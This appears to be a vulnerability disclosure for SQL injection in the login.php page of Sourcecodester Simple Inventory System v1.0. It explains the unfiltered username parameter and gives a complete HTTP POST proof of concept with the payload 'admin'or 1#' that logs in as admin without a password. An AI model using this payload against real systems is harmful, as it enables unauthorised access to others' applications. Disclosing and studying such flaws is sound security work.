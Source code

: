 ### SQL injection vulnerability exists in Sourcecodester Simple Inventory System

official website:https://www.sourcecodester.com/php/4481/simple-inventory-system-using-phpmysql.html

version:v1.0

route：login.php

injection parameter:$_POST['username']

#### 1.Vulnerability analysis

As shown in the figure below, in login.php, after the username parameter is passed in through post, it is directly spliced into the SQL query statement without any security filtering, thus leading to the occurrence of SQL injection vulnerabilities. We can inject query statements through universal passwords to log in to the backend without the need for an admin password.

![image-20240517155805194](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester Simple Inventory System Sql Inject-1.assets/image-20240517155805194.png)

#### 2.Vulnerability verification and exploit

The POC is as follows.

```
POST /login.php HTTP/1.1
Host: 10.15.6.184:82
Content-Length: 38
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.15.6.184:82
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.15.6.184:82/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ncbt63bs17glrou5b79l17ifm6
Connection: close

username=admin'or%201#&password=1&submit=Login
```

![image-20240517160321056](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester Simple Inventory System Sql Inject-1.assets/image-20240517160321056.png)

It is possible to enter the background without the correct password of admin.
